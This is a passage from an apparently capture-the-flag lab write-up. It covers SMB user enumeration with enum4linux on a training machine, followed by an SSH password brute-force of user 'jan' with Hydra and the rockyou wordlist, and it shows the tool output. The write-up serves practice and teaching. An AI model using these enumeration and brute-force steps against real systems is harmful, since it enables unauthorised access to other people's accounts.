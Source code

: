 Apache Struts is a free, open-source framework for creating elegant, enterprise-ready Java web applications. It favors convention over configuration, is extensible using a plugin architecture, and ships with plugins to support REST, AJAX, and JSON. 

We also have the version of Struts: *REST version of the example!). Oh, and right now I'm using version 2.5.12*

On the other hand, it seems that J has a weak password in the system, easy to crack. 


## User enumeration
----

SMB is running on the port 139/445 as nmap showed us, so we'll try to enumerate users with the tool **enum4linux**, the output will be quite long but I'll show the most interesting part.

```java
enum4linux -a 10.10.104.79

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
S-1-22-1-1002 Unix User\ubuntu (Local User)
```

<br>
# Exploitation
-----------
## Identification and exploitation of vulnerabilities
------------

Let's start with the SSH intrussion, since we have some valid local users in the machine: **kay, jan and ubuntu**. **jan** starts with the letter **J**. If you remember "J" was warned in **J.txt** because he had a weak and easy to crack password. I'll try to crack jan's password with **Hydra**.

```bash
❯ hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.175.143 ssh
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-29 20:10:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.175.143:22/
[STATUS] 198.00 tries/min, 198 tries in 00:01h, 14344203 to do in 1207:26h, 14 active
[STATUS] 216.00 tries/min, 648 tries in 00:03h, 14343753 to do in 1106:47h, 14 active
[22][ssh] host: 10.10.175.143   login: jan   password: <THE_CRACKED_PASSWORD>
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-29 20:14:04
```
